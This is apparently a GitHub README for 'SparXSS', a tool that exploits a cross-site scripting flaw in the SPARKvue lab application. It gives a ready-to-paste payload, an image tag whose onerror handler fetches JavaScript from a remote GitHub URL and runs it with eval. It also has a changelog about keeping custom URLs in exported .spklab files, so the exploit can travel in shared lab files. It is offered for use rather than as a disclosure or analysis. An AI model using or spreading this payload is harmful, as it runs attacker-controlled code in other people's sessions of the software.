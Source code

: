 # SparXSS

## A JS Script For Redirection And Custom Javascript Execution For The SPARKvue XSS Vulnerability Found By ohonbob

Run it using:<br>```<img src=# onerror='fetch("https://raw.githubusercontent.com/Amukerd/SparXSS/main/sparxss.js").then(r => r.text()).then(c => eval(c))'>```

The If Statement In The First Line Was Because It Would Execute Multiple Times While I Was Testing It

## ToDo
- ~~Make Icon's Show up for Every URL~~
- Make the custom URL's stay when you export the .spklab file (close to getting this working)

## Changelog

10/24/2023
- The checkpoint2 and getFaviconUrl functions have been combined into 1 function (only checkpoint2 now)
- The Hyperlink URL can now have https:// when it could not before
- Uploaded New SparXSS.spklab file to reflect the updates made so far
